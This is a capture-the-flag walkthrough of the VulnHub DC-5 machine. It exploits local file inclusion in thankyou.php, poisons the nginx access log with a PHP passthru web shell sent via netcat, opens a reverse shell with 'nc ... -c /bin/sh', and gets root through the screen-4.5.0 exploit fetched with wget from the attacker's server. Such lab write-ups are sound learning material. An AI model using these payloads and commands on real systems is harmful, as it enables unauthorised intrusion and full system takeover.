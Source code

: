 # DC: 5
[VulnHub link](https://www.vulnhub.com/entry/dc-5,314/)  
By DCAU

* As with the first 4 iterations of the DC-series, we are first greeted with a login page that requires users to specify both the username and the password:
![](/screenshots/dc-5/loginInitial.jpg)
* Common login credentials such as `admin:admin` and `admin:password` do not work.
* Run `nmap 10.0.2.*`, where we find 5 live hosts:
![](/screenshots/dc-5/nmapScan.jpg)
* After eliminating our own IP address and our router gateway IP address, it is very likely that the vulnerable VM's IP address is `10.0.2.12`.
* The host is running 2 services, HTTP at port 80 and rpcbind at port 111. Both ports are found to be open.
* Run `nmap -p- -A 10.0.2.12`:
![](/screenshots/dc-5/hostFullScan.jpg)
* Looking at the services which the vulnerable VM is running, we can see an nginx web server running on port 80 (which is open), as with the previous iteration of the dc series.
* Opening `http://10.0.2.12` reveals a site with paragraphs of random sample texts greeting us:
![](/screenshots/dc-5/siteWebServer.jpg)
* At this point in time, I could not be more stuck. I tried using Burp Suite on the Contact form as was done in the previous walkthrough for DC-4, but to no avail.
* A hint that I got was that when I repeatedly submitted the Contact form, the copyright year at the bottom may differ:
![](/screenshots/dc-5/copyrightYears.jpg)
* It was either 2017, 2018, 2019 or 2020. Interesting. The copyright year on any of the other pages would be 2019.
* Even when I was repeatedly refreshing `http://10.0.2.12/thankyou.php` which had no parameters, the year was still changing. A contact form that is submitted would result in the URL being `http://10.0.2.12/thankyou.php?firstname=&lastname=&country=australia&subject=`.
* On hindsight, the only indication that I got from looking at the page source, is that the closing HTML tag for footer was rather out of place:
![](/screenshots/dc-5/contactFormSubmitPageSource.jpg)
* While I understood that we could modify the data (within the various options) being sent, what I did not know was that we could attempt our own options as well. Such an option would be `file`, where we would want to read the contents of specific files within the web server. It turns out that this vulnerability is called **Local File Inclusion** (LFI).
* Here is a [great explanation](https://roguecod3r.wordpress.com/2014/03/17/lfi-to-shell-exploiting-apache-access-log/) on how we will be exploiting this vulnerability to get our shell, courtesy of roguecod3r (author of post) and byzo (who suggested this article in his walkthrough).
* After understanding this, we will now attempt to get the contents of `/etc/passwd`, by entering `http://10.0.2.12/thankyou.php?file=/etc/passwd`:
![](/screenshots/dc-5/etcPasswdFile.jpg)
* Interestingly, if we did not include any file to load in the parameter, the footer contents would disappear, i.e. no Copyright © 2019 would be retrieved.
* Also, `/etc/passwd` seems to be one of the common files used to test for LFI, because I guess virtually everyone would have that file on their web servers. Attempting to load a file that does not exist may lead us to be mistaken that LFI is not present.
* As much as we now know a list of users, we do not have a login page or ssh to attempt our logins.
* It turns out that to get our shell, we would have to exploit it through the *nginx access logs*.
* First, we have to find out where the access logs are located. A common location of the file is `/var/log/nginx/access.log`. Run: `http://10.0.2.12/thankyou.php?file=/var/log/nginx/access.log`:
![](/screenshots/dc-5/nginxAccessLog.jpg)
* Note: For Apache2 web servers, the location is also likely to be the same, except that it would be found under the `apache2` directory in `/var/log` instead.
* We can now confirm that we are able to retrieve the access logs, which span many, many pages.
* I accessed `http://10.0.2.12/testing-out-that-i-am-able-to-read-the-access-logs`, just to test out what we know about the access logs - that these files record all requests processed by the server:
![](/screenshots/dc-5/nginxAccessLogTest.jpg)
* Note: The latest records are found at the bottom of the log file.
* Next, run `nc 10.0.2.12 80`, then enter `GET /<?php passthru($_GET['cmd']); ?> HTTP/1.1`:
![](/screenshots/dc-5/emptyGETResponse.jpg)
* Note: I did not get back any response from my GET request, as compared to the walkthroughs by others who solved this challenge. They got back a response with status code `400 Bad Request`, where if you were to see the status code of my 'empty' GET request below, it is a `408 Request Timeut` error. Interesting.
* `passthru` allows us to execute an external program and display its raw output.
* Note: The browswer is not used to send this GET request because it will URL-encode the request, making it useless.
* Refresh the page, i.e. visit `http://10.0.2.12/thankyou.php?file=/var/log/nginx/access.log` and we see that there is an 'empty' GET request, which is really the request made when we executed the PHP code:
![](/screenshots/dc-5/emptyGETRequest.jpg)
* After that, visit `http://10.0.2.12/thankyou.php?file=/var/log/nginx/access.log&cmd=id` to confirm that we are able to run commands. We should expect to see the output of running `id` in the access logs, exactly at the log entry where our 'empty' GET request was made:
![](/screenshots/dc-5/commandExecutionAccessLogs.jpg)
* Note: Visiting the page with the parameter `cmd=id` immediately after sending the GET request via netcat will result in the output of `id` being displayed as the latest one. I visited a few pages in between for the example above to illustrate my point that the output of the command will only appear exactly where the netcat GET request was made.
![](/screenshots/dc-5/commandExecutionImmediateAccessLogs.jpg)
* Next, we will establish our shell to the web server by running a netcat listener `nc -v -l -p 1234` on our Kali VM terminal, and then visiting `http://10.0.2.12/thankyou.php?file=/var/log/nginx/access.log&cmd=nc 10.0.2.15 1234 -c /bin/sh` on our browser:
![](/screenshots/dc-5/ncEstablishShell.jpg)
* Note: Replace `10.0.2.15` with the IP address of your Kali VM, `1234` with a port number of your choice just for the purpose of establishing this connection, and `/bin/sh` with `/bin/bash` if you would like (there is no difference between the 2 here).
* As expected, we are user `www-data` and it is time to find a way to escalate our privileges!
* Before we do so, run `python -c 'import pty; pty.spawn("/bin/bash")'` to spawn our interactive TTY shell.
* Next, run `find / -user root -perm -4000 -print 2>/dev/null` to search for setuid binaries which we can possibly exploit:
![](/screenshots/dc-5/setuidBinaries.jpg)
* Having executed this `find` command many times over our past challenges, we are more or less able to distinguish if there are any unusual binaries in the output. Here, it is `/bin/screen-4.5.0`.
* Googling about /bin/screen-4.5.0 led me to find out about the existence of 2 exploits relating to it on Exploit DB - [41152](https://www.exploit-db.com/exploits/41152) and [41154](https://www.exploit-db.com/exploits/41154). I could not quite understand the former, so we will use the latter.
* To upload the exploit script, run `python -m SimpleHTTPServer 4567` on our Kali VM, then navigate to `/tmp` on our netcat shell before running `wget http://10.0.2.15:4567/41154.sh`:
![](/screenshots/dc-5/uploadExploitScript.jpg)
* The status code `200 OK` tells us that the upload is successful.
* Note: According to [Python For Beginners](https://www.pythonforbeginners.com/modules-in-python/how-to-use-simplehttpserver/), the SimpleHTTPServer module that comes with Python is a simple HTTP server that provides standard GET and HEAD request handlers. An advantage with the built-in HTTP server is that we do not have to install and configure anything.
* Note: `4567` is also a port number of your choice just for the purpose of establishing this connection.
* Once it has been downloaded to the web server /tmp directory, `chmod +x 41154.sh` to give it executable permissions.
* Running `./41154.sh` results in an error as shown in the boxed-up area:
![](/screenshots/dc-5/failedScreenExploit.jpg)
* Perhaps the exploit script could not be executed in one shot. Let us try to split the original script into its respective files by ourselves, and do the compilation manually.
* First, we will do a quick analysis of the original exploit script:
![](/screenshots/dc-5/exploitCode.jpg)
* In summary, the original exploit script is split into 3 files - 2 .c files and 1 script.
* We will next compile the 2 respective .c files, bearing in mind that the `/tmp` parts of the command (as indicated in the original exploit script) are removed because my version of files are stored in `/root`.
* Compile `libhax.c` using the command `gcc -fPIC -shared -ldl -o libhax.so libhax.c`:
![](/screenshots/dc-5/libhaxCompilation.jpg)
* Compile `rootshell.c` using the command `gcc -o rootshell rootshell.c`:
![](/screenshots/dc-5/rootshellCompilation.jpg)
* We will name our script `screenroot.sh`, although you can name it otherwise. This name is the file name of the original exploit script.
![](/screenshots/dc-5/screenRootScriptModified.jpg)
* Ensure that our SimpleHTTPServer is still running, and upload all 3 files to the vulnerable web server:
1. `wget http://10.0.2.15:4567/libhax.so`
2. `wget http://10.0.2.15:4567/rootshell`
3. `wget http://10.0.2.15:4567/screenroot.sh`
![](/screenshots/dc-5/uploadExploitFiles.jpg)
* `chmod +x screenroot.sh` to give it executable permissions:
![](/screenshots/dc-5/filesInTmpDirectory.jpg)
* For some unknown reason, I am unable to run it on one of my devices. Apparently there is a wrong ELF class, which I am unable to diagnose:
![](/screenshots/dc-5/exploitFinalUnknownFailure.jpg)
* What you should rightfully see when you run `./screenroot.sh`:
![](/screenshots/dc-5/privilegeEscalated.jpg)
* Congratulations, we are now `root`! Head to `/root`, and our flag is found in `thisistheflag.txt`:
![](/screenshots/dc-5/flag.jpg)

# Concluding Remarks
This challenge felt a lot shorter than any other vulnerable machines that we had attempted previously, but at the same time each step required a lot more targeted knowledge that one had to know, else it would be very hard to move forward.

1. Learnt about exploiting Local File Inclusion (LFI).
2. Learnt to deconstruct an exploit script, given that its original copy did not work for our circumstances.
3. Learnt about SimpleHTTPServer in conjunction with wget.

Does not seem like I learnt a lot in terms of quantity, but learning about LFI was a huge plus to me here!

**Note to self: Consider exploring why the Copyright year kept changing upon submission of the contact form.**

# References
1. https://bzyo.github.io/dc-5/